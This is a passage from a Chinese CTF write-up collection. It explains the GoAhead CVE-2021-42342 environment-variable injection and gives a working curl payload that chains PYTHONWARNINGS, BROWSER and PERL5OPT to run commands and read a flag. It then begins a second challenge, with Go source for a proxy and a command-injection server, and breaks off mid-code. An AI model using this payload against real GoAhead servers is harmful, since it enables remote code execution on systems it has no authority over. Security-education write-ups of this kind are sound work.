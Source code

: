 而由GoAhead的cve我们知道（但好像这个题在当时是day题 没有公开的cve-2021-42342 而这里用的就是这个），上传表单键值对可以写入环境变量中，我们选择在PYTHONWARNINGS环境变量引入其它模块，再通过antigravity模块对于browser环境变量启动响应的进程，配合perl+PERL5OPT环境变量进行rce（更多内容参见上面的文章

```bash
$ curl -F "PYTHONWARNINGS=all:0:antigravity.x:0:0" -F "BROWSER=perlthanks" -F 'PERL5OPT=-Mbase;print(system("cat".chr(0x20)."/flag"));exit;' http://advancement.chal.perfect.blue
```

————p牛在vulhub中给出的poc用的是LD_PRELOAD，但是由于这个题目的相关目录/etc/goahead/tmp是只读的，所以无法构造上传表单传.so

### [湖湘杯2021 线下]MultistageAgency

[wp1](https://ha1c9on.top/?p=1913)  |  [wp2](https://guokeya.github.io/post/ZqfbSBz7J/)

有proxy和web两个web用户起的服务，server由root起

proxy在内网的8080端口，主要提供返回`Secretkey`的功能

```go
package main
import (
    "github.com/elazarl/goproxy"
    "io/ioutil"
    "log"
    "net/http"
    "os"
)
func main() {
    file, err := os.Open("secret/key") // 读取当前目录下的key
    if err != nil {
        panic(err)
    }
    defer file.Close()
    content, err := ioutil.ReadAll(file)
    SecretKey := string(content)
    proxy := goproxy.NewProxyHttpServer()
    proxy.Verbose = true
    proxy.OnRequest().DoFunc(
        func(r *http.Request,ctx *goproxy.ProxyCtx)(*http.Request,*http.Response) {
            r.Header.Set("Secretkey",SecretKey) // 返回包的请求头设置Secretkey
            return r,nil
        })
    log.Print("start listen 8080")
    log.Fatal(http.ListenAndServe(":8080", proxy))
}
```

9091端口server，有命令注入点/manage和一个waf，并且需要本地ip访问

```go
package main
import (
    "bytes"
    "crypto/md5"
    "fmt"
    "io/ioutil"
    "log"
    "net/http"
    "os"
    "os/exec"
    "unicode"
)
// 检查来源ip为本地才继续执行
var SecretKey = ""

func getToken(w http.ResponseWriter, r *http.Request) {
    header := r.Header
    token := "error"
```